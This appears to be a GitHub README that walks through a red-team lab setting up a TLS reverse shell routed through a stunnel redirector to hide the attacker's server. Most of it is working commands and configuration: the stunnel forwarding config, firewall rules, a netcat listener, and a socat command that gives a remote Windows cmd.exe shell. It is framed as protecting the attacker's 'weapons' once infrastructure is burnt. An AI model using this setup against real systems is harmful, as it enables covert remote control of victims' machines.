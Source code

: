 # TLS_redirect
## Simple resilient TLS reverse shell architecture

Here I will illustrate how to implement a simple but effective architecture to serve a reverse shell. Following the diagram:
<br>![Screenshot](RedTLS.png)<br>
I set up my ParrotOS VM to perform a TLS redirect to a CentOS server that acts as attacker. Since in a real engagment it is probable that the front end will be <i>burnt</i>, using this simple approach can save the attacker business logic and protect our <i>weapons</i>, making the things a bit harder. <br> In this scenario we can expose only the server that acts as redirector with a public IP, of course once the front end is burnt probably even the public IP will suffer the same fate. Some useful resources to check IP reputation:
- https://ipremoval.sms.symantec.com
- https://www.ip-finder.me/ip-full-list
<br>
Eventually we can concetrate our effort in hardening the CentOS server (attacker), in this example I have only put in place a firewall. So recalling the roles of the play we have:
1. Win10Pro machine with AV and firewall in place. The payload will be a simple socat openssl reverse shell
1. Parrot OS machine with Stunnel service that will redirect the incoming TLS connection to...
1. Attacker machine, a CentOS 8 server that will get the reverse shell not encrypted

### LAB configuration

#### Victim machine. 
- IP 192.168.1.6

Download the compiled socat for windows from here: https://github.com/zinzloun/TLS_redirect/raw/main/socat-1.7.3.2-1-x86_64.zip. Unzip the file and move the unzipped folder where you prefer, of course the folder is the position from where we will execute our payload. For convenience I put the folder into the enviroment PATH variable

#### TLS redirector
- Dual homed
  - IP 192.168.1.7 that acts as public interface
  - IP 10.0.2.5 that acts as internal interface

Install Stunell and configure to forward the traffic to the attacker machine using netcat. I will skip the part about how to create a self signed certificate, just browse the web. The configuration is self explanatory:
  ```
  sudo apt install stunnel4
  cat /etc/stunnel/stunnel.conf 
  [nc]
  client = no
  accept = 443
  connect = 10.0.2.10:6666
  cert = /etc/stunnel/stunnel.pem
  ```
  Now lunch the service and check it out:
```
  service stunnel4 start 
  netstat -tulpn | grep 443
  tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      4687/stunnel4       
```
#### The attacker machine
- IP 10.0.2.10

Here I had to install netcat:
```
sudo yum install nc
```
Then I configured the firewall to allow incoming connection from the redirector as follows:
```
sudo firewall-cmd --new-zone=redPar --permanent
sudo firewall-cmd --reload
sudo firewall-cmd --zone=redPar --add-source=10.0.2.5/32 --permanent
sudo firewall-cmd --zone=redPar --add-port=6666/tcp --permanent
sudo firewall-cmd --reload
```
Verify the configuration:
```
 sudo firewall-cmd --zone=redPar --list-all
  redPar (active)
    target: default
    icmp-block-inversion: no
    interfaces:
    sources: 10.0.2.5/32
    services:
    ports: 6666/tcp
    protocols:
    masquerade: no
    forward-ports:
    source-ports:
    icmp-blocks:
    rich rules:
```
Eventually to delete the zone issue:
```
sudo firewall-cmd --permanent --delete-zone=redPar
sudo firewall-cmd --reload
```
Finally lunch the listener:
```
sudo nc -lvp 6666
```

## Test
On the Win victim machine lunch the socat TLS reverse shell as follows:
```
socat OPENSSL:192.168.1.7:443,verify=0 EXEC:'cmd.exe',pipes
```
The flow is the follows where (1) is the victim, (2) is the redirector and (3) is the attacker:
<br>![Screenshot](run.png)<br>

We can inspect the traffic usign Wireshark*:
<br>![Screenshot](ssl_hand.png)<br>

<b>Enjoy</b>

---
**NOTE**
###### *If your Lab (as mine) is created using a virtualizer (e.g. Virtualbox) remember that you can not itercept any traffics with a bridged mode network configuration on the host machine, since it bypass the host OS network stack entirely. Here I'm running Wireshark on the guest Parrot OS redirector*
---
